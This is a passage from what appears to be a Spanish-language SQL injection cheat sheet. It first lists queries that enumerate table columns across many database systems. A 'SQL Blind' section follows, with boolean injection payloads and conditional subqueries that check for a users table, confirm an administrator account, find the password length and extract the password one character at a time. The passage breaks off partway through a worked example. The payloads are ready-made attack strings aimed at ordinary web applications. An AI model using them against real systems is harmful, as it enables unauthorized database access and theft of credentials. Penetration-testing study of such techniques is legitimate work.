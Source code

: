 | Amazon Aurora       | `SELECT column_name, data_type FROM information_schema.columns WHERE table_name = 'table';`         |
| SAP HANA            | `SELECT column_name, data_type FROM public.tables WHERE table_name = 'TABLE';`                      |
| Amazon RDS          | `SELECT column_name, data_type FROM information_schema.columns WHERE table_name = 'table';`         |
| Google Cloud SQL    | `SELECT column_name, data_type FROM information_schema.columns WHERE table_name = 'table';`         |
| Microsoft Access    | `SELECT Name, Type FROM MSysObjects WHERE Type=1 AND Flags=0;`                                      |
| Teradata            | `SELECT columnname, columntype FROM dbc.columns WHERE tablename = 'TABLE';`                        |
| Informix            | `SELECT colname, coltype FROM syscolumns WHERE tabname = 'table';`                                 |
| InterBase           | `SELECT RDB$FIELD_NAME, RDB$FIELD_TYPE FROM RDB$RELATION_FIELDS WHERE RDB$RELATION_NAME = 'TABLE';` |
| Firebird            | `SELECT RDB$FIELD_NAME, RDB$FIELD_TYPE FROM RDB$RELATION_FIELDS WHERE RDB$RELATION_NAME = 'TABLE';` |
| Snowflake           | `SHOW COLUMNS IN TABLE table;`                                                                     |
| Vertica             | `SELECT column_name, data_type FROM v_catalog.columns WHERE table_name = 'table';`                  |
| Netezza             | `SELECT columnname, datatype FROM _v_relation_column WHERE tablename = 'TABLE';`                    |
| Clustrix            | `SELECT column_name, data_type FROM information_schema.columns WHERE table_name = 'table';`         |


# SQL Blind

## Errores de lógica
### Comparación verdadera
` 'AND '1'='1 `
### Comparación falsa
` 'AND '1'='2 `

<br><br>**Ejemplo** 
```
Consulta ideal
SELECT ID FROM TRACK WHERE TRACKID = 'xyz'

Compración verdadera
SELECT ID FROM TRACK WHERE TRACKID = 'xyz'AND '1'='1'

Comparación falda
SELECT ID FROM TRACK WHERE TRACKID = 'xyz'AND '1'='2'
```
## Subconsultas condicionales
### Comprobar la existencia de la tabla usuario
` ' AND (SELECT 'a' FROM users LIMIT 1)='a `
### Comprobar la existencia del usuario administrador
` ' AND (SELECT 'a' FROM users WHERE username='administrator')='a `
### Identificar el tamaño de la contraseña de administrador
` ' AND (SELECT 'a' FROM users WHERE username='administrator' AND LENGTH(password)>1)='a `
### Enumeración de la contraseña
` ' AND (SELECT SUBSTRING(password,1,1) FROM users WHERE username='administrator')='a `
<br><br>**Ejemplo** 
```
Consulta ideal
SELECT ID FROM TRACK WHERE TRACKID = 'xyz'

Comprobar la existencia de la tabla usuario
```